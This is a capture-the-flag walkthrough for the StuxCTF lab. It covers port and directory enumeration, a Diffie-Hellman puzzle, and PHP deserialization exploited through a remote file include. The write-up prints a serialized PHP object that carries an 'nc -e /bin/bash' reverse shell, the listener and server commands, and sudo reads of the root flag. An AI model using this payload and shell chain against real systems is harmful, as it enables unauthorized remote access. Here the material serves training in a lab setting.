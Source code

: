 # [StuxCTF](https://tryhackme.com/room/stuxctf)

## Crypto, serealization, priv scalation and more ...

# StuxCTF

## Read user.txt and root.txt

### What is the hidden directory

1. Start by nmap, and gobuster enumeration

```Bash
nmap -p- <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports

[SCREEN01]

```Bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt -x html,php,js,txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing
- `-x`: Append extensions to each word in the wordlist when searching

[SCREEN02]

2. We don't have access to the `/.php` and `/.html`. `robots.txt` doesn't have anything interesting, but we have another clue in source of `/index.html`

[SCREEN03]

3. Let's solve this Diffie-Hellman problem in Python to find the secret directory

```Python
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g = 7
a = 330
b = 450
gc = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

gca = (gc**a) % p
gcab = (gca**b) % p

print str(gcab)[:128]
```

[SCREEN04]

### user.txt

### root.txt

1. In source of the secret directory we get another hint

[SCREEN05]

2. When adding `/?file= ` at the end of the secret directory we are getting `File no Exist!` message

[SCREEN06]

3. I have found out that only `index.php` returns something useful

[SCREEN07]

4. Let's put it in the [CyberChief](<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')From_Base64('A-Za-z0-9%2B/%3D',true,false)>) and select `From Hex` -> `Reverse` -> `From Base64`. This is our encrypted `index.php`

5. Prepare reverse shell in php and cast it to the .txt file

```php
<?php
class file
{
 public $file = 'shell.php';
 public $data = '<?php shell_exec("nc -e /bin/bash <IP> 4444"); ?>';
}

echo (serialize(new file));

?>
```

```Bash
php shell.php > shell.txt

```

6. Start python server and netcat listener

```Bash
python -m SimpleHTTPServer 9000
```

```Bash
nc -lvnp 4444
```

7. Upload our txt file using `/?file=http://<IP>:9000/shell.txt` and go to the `/<SECRET_DIRECTORY>/shell.php` endpoint. When we get a connection we can get all the flags

```Bash
whoami
sudo -l
cat /home/grecia/user.txt
sudo cat /root/root.txt
```

[SCREEN08]
